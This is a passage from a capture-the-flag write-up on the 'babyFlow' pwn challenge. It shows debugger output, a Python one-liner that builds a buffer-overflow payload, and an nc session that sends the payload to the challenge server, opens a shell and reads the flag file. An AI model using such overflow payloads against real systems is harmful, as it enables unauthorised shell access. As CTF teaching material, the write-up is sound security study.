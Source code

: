 ```shell
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x804bef4  →  0x8049180  →   endbr32 
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0xffffcf3e  →  0xd186ffff
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
[...]
```

As you can see, the EIP register is not overflowed with `41`'s (A).

**Let's try to add more 4 bytes:**
```shell
┌[siunam♥earth]-(~/ctf/Incognito-4.0/pwn/babyFlow)-[2023.02.18|15:09:29(HKT)]
└> python3 -c "print('A'*20 + 'B' * 4)"
AAAAAAAAAAAAAAAAAAAABBBB
```

```shell
gef➤  r
[...]
can you pass me?
[...]
gef➤  n
Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAABBBB
process 67149 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "main" in current context.
$ id
[Detaching after vfork from child process 67345]
uid=1000(siunam) gid=1000(nam) groups=1000(nam),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)
$ 
```

Wait, what? We spawned a shell?

That being said, we successfully overflowed the EIP register to 4 B's (`42`).

**Now, we can `nc` to the challenge instance, and get the flag!**
```shell
┌[siunam♥earth]-(~/ctf/Incognito-4.0/pwn/babyFlow)-[2023.02.18|15:13:18(HKT)]
└> nc -nv  143.198.219.171 5000
(UNKNOWN) [143.198.219.171] 5000 (?) open
can you pass me?
AAAAAAAAAAAAAAAAAAAABBBB
whoami;hostname;id
ctf
1801b85e77d9
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
cat /home/ctf/flag
ictf{bf930bcd-6c10-4c05-bdd8-435db4b50cdb}
```
